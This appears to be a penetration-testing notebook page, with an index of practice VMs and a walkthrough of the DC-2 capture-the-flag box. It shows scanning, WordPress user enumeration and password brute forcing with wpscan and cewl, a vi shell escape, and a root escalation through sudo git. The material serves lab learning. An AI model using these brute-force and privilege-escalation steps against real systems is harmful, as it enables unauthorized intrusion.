Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
DC-2
root@kali:~# nmap -PS 192.168.56.1-255Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-01 21:26 EDT
Nmap scan report for 192.168.56.1
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
111/tcp open rpcbind
Nmap scan report for 192.168.56.100
Host is up (0.000026s latency).
All 1000 scanned ports on 192.168.56.100 are filtered
MAC Address: 08:00:27:F8:6B:57 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.107
Host is up (0.00012s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
80/tcp open http
MAC Address: 08:00:27:05:9F:2A (Oracle VirtualBox virtual NIC)
Nmap done: 255 IP addresses (3 hosts up) scanned in 4.04 seconds
root@kali:~#
root@kali:~# nmap -A -p- 192.168.56.107
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-01 21:26 EDT
Nmap scan report for 192.168.56.107
Host is up (0.00042s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey:
| 1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
| 2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
| 256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_ 256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:05:9F:2A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.42 ms 192.168.56.107
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.42 seconds
root@kali:~#



root@kali:~# dirb http://192.168.56.107 /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Fri Nov 1 21:43:23 2019
URL_BASE: http://192.168.56.107/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.107/ ----
+ http://192.168.56.107/index.php (CODE:200|SIZE:53562)
+ http://192.168.56.107/server-status (CODE:403|SIZE:302)
==> DIRECTORY: http://192.168.56.107/wp-admin/
==> DIRECTORY: http://192.168.56.107/wp-content/
==> DIRECTORY: http://192.168.56.107/wp-includes/
+ http://192.168.56.107/xmlrpc.php (CODE:405|SIZE:42)
---- Entering directory: http://192.168.56.107/wp-admin/ ----
+ http://192.168.56.107/wp-admin/admin.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.56.107/wp-admin/css/
==> DIRECTORY: http://192.168.56.107/wp-admin/images/
==> DIRECTORY: http://192.168.56.107/wp-admin/includes/
+ http://192.168.56.107/wp-admin/index.php (CODE:302|SIZE:0)
==> DIRECTORY: http://192.168.56.107/wp-admin/js/
==> DIRECTORY: http://192.168.56.107/wp-admin/maint/
==> DIRECTORY: http://192.168.56.107/wp-admin/network/
==> DIRECTORY: http://192.168.56.107/wp-admin/user/
---- Entering directory: http://192.168.56.107/wp-content/ ----
+ http://192.168.56.107/wp-content/index.php (CODE:200|SIZE:0)
==> DIRECTORY: http://192.168.56.107/wp-content/languages/
==> DIRECTORY: http://192.168.56.107/wp-content/plugins/
==> DIRECTORY: http://192.168.56.107/wp-content/themes/
---- Entering directory: http://192.168.56.107/wp-includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.107/wp-admin/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.107/wp-admin/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.107/wp-admin/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.107/wp-admin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.107/wp-admin/maint/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.107/wp-admin/network/ ----
+ http://192.168.56.107/wp-admin/network/admin.php (CODE:302|SIZE:0)
+ http://192.168.56.107/wp-admin/network/index.php (CODE:302|SIZE:0)
---- Entering directory: http://192.168.56.107/wp-admin/user/ ----
+ http://192.168.56.107/wp-admin/user/admin.php (CODE:302|SIZE:0)
+ http://192.168.56.107/wp-admin/user/index.php (CODE:302|SIZE:0)
---- Entering directory: http://192.168.56.107/wp-content/languages/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.107/wp-content/plugins/ ----
+ http://192.168.56.107/wp-content/plugins/index.php (CODE:200|SIZE:0)
---- Entering directory: http://192.168.56.107/wp-content/themes/ ----
+ http://192.168.56.107/wp-content/themes/index.php (CODE:200|SIZE:0)
-----------------
END_TIME: Fri Nov 1 21:43:31 2019
DOWNLOADED: 32284 - FOUND: 12
root@kali:~#

----> In the flag it says to use cewl:
-------→ which is tool that makes a wordlist from website
cewl http://dc-2/ -w dc2_cewl.txt
----> Use wpscan to enumerate users on the site, and scan for vulnerabilities:
wpscan --url http://dc-2/ --enumerate u
root@kali:~# wpscan --url http://dc-2/ --enumerate u
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.6.3
Sponsored by Sucuri - https://sucuri.net
@_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://dc-2/
[+] Started: Fri Nov 1 21:54:35 2019
Interesting Finding(s):
[+] http://dc-2/
| Interesting Entry: Server: Apache/2.4.10 (Debian)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] http://dc-2/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
[+] http://dc-2/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] http://dc-2/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
| Detected By: Rss Generator (Passive Detection)
| - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
| - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
|
| [!] 17 vulnerabilities identified:
|
| [!] Title: WordPress <= 4.9.6 - Authenticated Arbitrary File Deletion
| Fixed in: 4.7.11
| References:
| - https://wpvulndb.com/vulnerabilities/9100
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12895
| - https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/
| - http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/
| - https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
| - https://wordpress.org/news/2018/07/wordpress-4-9-7-security-and-maintenance-release/
| - https://www.wordfence.com/blog/2018/07/details-of-an-additional-file-deletion-vulnerability-patched-in-wordpress-4-9-7/
|
| [!] Title: WordPress <= 5.0 - Authenticated File Delete
| Fixed in: 4.7.12
| References:
| - https://wpvulndb.com/vulnerabilities/9169
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20147
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Authenticated Post Type Bypass
| Fixed in: 4.7.12
| References:
| - https://wpvulndb.com/vulnerabilities/9170
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20152
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://blog.ripstech.com/2018/wordpress-post-type-privilege-escalation/
|
| [!] Title: WordPress <= 5.0 - PHP Object Injection via Meta Data
| Fixed in: 4.7.12
| References:
| - https://wpvulndb.com/vulnerabilities/9171
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20148
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Authenticated Cross-Site Scripting (XSS)
| Fixed in: 4.7.12
| References:
| - https://wpvulndb.com/vulnerabilities/9172
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20153
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - Cross-Site Scripting (XSS) that could affect plugins
| Fixed in: 4.7.12
| References:
| - https://wpvulndb.com/vulnerabilities/9173
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20150
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://github.com/WordPress/WordPress/commit/fb3c6ea0618fcb9a51d4f2c1940e9efcd4a2d460
|
| [!] Title: WordPress <= 5.0 - User Activation Screen Search Engine Indexing
| Fixed in: 4.7.12
| References:
| - https://wpvulndb.com/vulnerabilities/9174
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20151
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
|
| [!] Title: WordPress <= 5.0 - File Upload to XSS on Apache Web Servers
| Fixed in: 4.7.12
| References:
| - https://wpvulndb.com/vulnerabilities/9175
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20149
| - https://wordpress.org/news/2018/12/wordpress-5-0-1-security-release/
| - https://github.com/WordPress/WordPress/commit/246a70bdbfac3bd45ff71c7941deef1bb206b19a
|
| [!] Title: WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution
| Fixed in: 5.0.1
| References:
| - https://wpvulndb.com/vulnerabilities/9222
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8943
| - https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/
| - https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce
|
| [!] Title: WordPress 3.9-5.1 - Comment Cross-Site Scripting (XSS)
| Fixed in: 4.7.13
| References:
| - https://wpvulndb.com/vulnerabilities/9230
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9787
| - https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b
| - https://wordpress.org/news/2019/03/wordpress-5-1-1-security-and-maintenance-release/
| - https://blog.ripstech.com/2019/wordpress-csrf-to-rce/
|
| [!] Title: WordPress <= 5.2.2 - Cross-Site Scripting (XSS) in URL Sanitisation
| Fixed in: 4.7.14
| References:
| - https://wpvulndb.com/vulnerabilities/9867
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16222
| - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
| - https://github.com/WordPress/WordPress/commit/30ac67579559fe42251b5a9f887211bf61a8ed68
|
| [!] Title: WordPress <= 5.2.3 - Stored XSS in Customizer
| Fixed in: 4.7.15
| References:
| - https://wpvulndb.com/vulnerabilities/9908
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17674
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
|
| [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
| Fixed in: 4.7.15
| References:
| - https://wpvulndb.com/vulnerabilities/9909
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
| - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
| - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
|
| [!] Title: WordPress <= 5.2.3 - Stored XSS in Style Tags
| Fixed in: 4.7.15
| References:
| - https://wpvulndb.com/vulnerabilities/9910
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17672
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
|
| [!] Title: WordPress <= 5.2.3 - JSON Request Cache Poisoning
| Fixed in: 4.7.15
| References:
| - https://wpvulndb.com/vulnerabilities/9911
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17673
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://github.com/WordPress/WordPress/commit/b224c251adfa16a5f84074a3c0886270c9df38de
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
|
| [!] Title: WordPress <= 5.2.3 - Server-Side Request Forgery (SSRF) in URL Validation
| Fixed in: 4.7.15
| References:
| - https://wpvulndb.com/vulnerabilities/9912
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17669
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17670
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://github.com/WordPress/WordPress/commit/9db44754b9e4044690a6c32fd74b9d5fe26b07b2
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
|
| [!] Title: WordPress <= 5.2.3 - Admin Referrer Validation
| Fixed in: 4.7.15
| References:
| - https://wpvulndb.com/vulnerabilities/9913
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17675
| - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
| - https://github.com/WordPress/WordPress/commit/b183fd1cca0b44a92f0264823dd9f22d2fd8b8d0
| - https://blog.wpscan.org/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
[+] WordPress theme in use: twentyseventeen
| Location: http://dc-2/wp-content/themes/twentyseventeen/
| Last Updated: 2019-05-07T00:00:00.000Z
| Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
| [!] The version is out of date, the latest version is 2.2
| Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
| Style Name: Twenty Seventeen
| Style URI: https://wordpress.org/themes/twentyseventeen/
| Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Detected By: Css Style (Passive Detection)
|
| Version: 1.2 (80% confidence)
| Detected By: Style (Passive Detection)
| - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'
[+] Enumerating Users (via Passive and Aggressive Methods)
Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:
[+] admin
| Detected By: Rss Generator (Passive Detection)
| Confirmed By:
| Wp Json Api (Aggressive Detection)
| - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
[+] jerry
| Detected By: Wp Json Api (Aggressive Detection)
| - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
| Confirmed By:
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
[+] tom
| Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
[+] Finished: Fri Nov 1 21:54:38 2019
[+] Requests Done: 73
[+] Cached Requests: 6
[+] Data Sent: 14.291 KB
[+] Data Received: 26.194 MB
[+] Memory used: 106.07 MB
[+] Elapsed time: 00:00:02


Create file users.txt with usernames to brute force logins:

wpscan --url http://dc-2/ -P dc2_cewl.txt -U dc2_users

Logged in as jerry:


Logged in as tom:
-- found nothing
root@kali:~# ssh -p7744 tom@192.168.56.107
tom@192.168.56.107's password:
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ ls
flag3.txt usr
tom@DC-2:~$
run:
$vi
and then in vim:
:shell
$ /bin/cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
$
$ /bin/su - jerry
Password:
jerry@DC-2:~$ ls
flag4.txt
jerry@DC-2:~$
jerry@DC-2:~$ cat flag4.txt
Good to see that you've made it this far - but you're not home yet.
You still need to get the final flag (the only flag that really counts!!!).
No hints here - you're on your own now. :-)
Go on - git outta here!!!!
jerry@DC-2:~$ find / -perm /4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/procmail
/usr/bin/at
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/bin/umount
/bin/mount
/bin/su
jerry@DC-2:~$
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User jerry may run the following commands on DC-2:
(root) NOPASSWD: /usr/bin/git
jerry@DC-2:~$
jerry@DC-2:~$ sudo git -p --help
usage: git [--version] [--help] [-C <path>] [-c name=value]
[--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
[-p|--paginate|--no-pager] [--no-replace-objects] [--bare]
[--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
<command> [<args>]
The most commonly used git commands are:
add Add file contents to the index
bisect Find by binary search the change that introduced a bug
branch List, create, or delete branches
checkout Checkout a branch or paths to the working tree
clone Clone a repository into a new directory
!/bin/bash
root@DC-2:/home/jerry# cd /root
root@DC-2:~# ls
final-flag.txt
root@DC-2:~# cat final-flag.txt
__ __ _ _ _ _
/ / /\ \ \___| | | __| | ___ _ __ ___ / \
\ \/ \/ / _ \ | | / _` |/ _ \| '_ \ / _ \/ /
\ /\ / __/ | | | (_| | (_) | | | | __/\_/
\/ \/ \___|_|_| \__,_|\___/|_| |_|\___\/
Congratulatons!!!
A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.
If you enjoyed this CTF, send me a tweet via @DCAU7.
root@DC-2:~#

FIN